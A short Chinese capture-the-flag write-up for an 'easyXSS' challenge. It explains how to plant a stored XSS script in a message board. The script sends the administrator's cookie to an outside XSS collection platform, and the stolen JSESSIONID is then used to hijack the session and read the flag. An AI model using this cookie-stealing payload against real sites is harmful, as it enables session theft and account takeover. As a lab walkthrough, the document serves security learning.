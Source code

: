 ## easyXSS

首先到https://xsshs.cn/注册一个账号，然后创建一个项目并勾选**默认模块**：

![image-20210215223054127](https://gitee.com/Lieutenantas/md-pic/raw/master/20210228234602.png)

点右上角的查看代码，找到最下面的图片链接。记住这个链接，等会儿会用到。

![image-20210215223249132](https://gitee.com/Lieutenantas/md-pic/raw/master/20210228234606.png)



在题目的注册界面注册任意一个账号，接下来登录进入到留言板，在留言板中添加下述留言（这里href的内容就使用刚刚在xss平台申请项目中的那个图片链接）：

```
<script>window.location.href="https://xsshs.cn/rZTR/xss.jpg?"+document.cookie</script>
```

![image-20210215230049541](https://gitee.com/Lieutenantas/md-pic/raw/master/20210228234608.png)

这段代码能够让管理员每次查看该页面时携带cookie跳转到指定的链接。

添加留言后，等待至多五分钟，当管理员查看该页面后，在xss平台上就能够看到管理员的cookie：

![image-20210215230503335](https://gitee.com/Lieutenantas/md-pic/raw/master/20210228234613.png)

接下来打开浏览器修改cookie JSESSIONID为管理员的cookie值即可查看flag页面：

![image-20210215230548135](https://gitee.com/Lieutenantas/md-pic/raw/master/20210228234619.png)


